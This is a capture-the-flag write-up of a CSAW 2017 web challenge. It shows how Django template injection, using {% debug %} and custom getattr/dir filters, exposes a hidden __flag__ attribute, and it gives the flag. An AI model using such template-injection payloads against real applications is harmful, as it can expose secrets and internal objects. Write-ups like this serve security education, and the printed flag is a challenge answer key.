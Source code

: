 # CSAWCTF_2017: Shia Labeouf

**Category:** Web
**Points:** 150
**Description:**

>Do it
Just do it
Don't let your dreams be dreams
Yesterday you said tomorrow
So just do it
Make your dreams come true
Just do it
Pick 1: http://web.chal.csaw.io:5487 http://web.chal.csaw.io:5488 http://web.chal.csaw.io:5489 http://web.chal.csaw.io:5490

## Write-up
This challenge was quite tricky, testing upon the tenancity and patience of challengers. The first step to solving this would be to understand Django's templating language. The second step was to discover the additional filters on `ad-lib`, by invoking a stacktrace by visiting a wrong URL, like http://web.chal.csaw.io:5487/polls/3/. This gives us an idea of what we have at our disposal.

    @register.filter(name='getme')
    def getme(value, arg):
      return getattr(value, arg)
    @register.filter(name='checknum')
    def checknum(value):
      check(value) ...
    @register.filter(name='listme')
    def listme(value):
      return dir(value)
    def check(value):

So now we have a bunch of functions we can use to display values, let's try and see what we are given. Entering `{% debug %}` on `ad-lib/` gives us a debug page, with a suspicious variable `mrpoopy`. Let's try using the functions we received earlier to debug it.

    {{ mrpoopy | listme }}
    ['Woohoo', '__doc__', '__flag__', '__module__']

This gives us a variable `__flag__`? Let's try printing that out!
 
    {{ mrpoopy | getme:"__flag__" }}
    flag{wow_much_t3mplate}

Bingo!

Therefore, the flag is `flag{wow_much_t3mplate}`.



`flag{wow_much_t3mplate}`
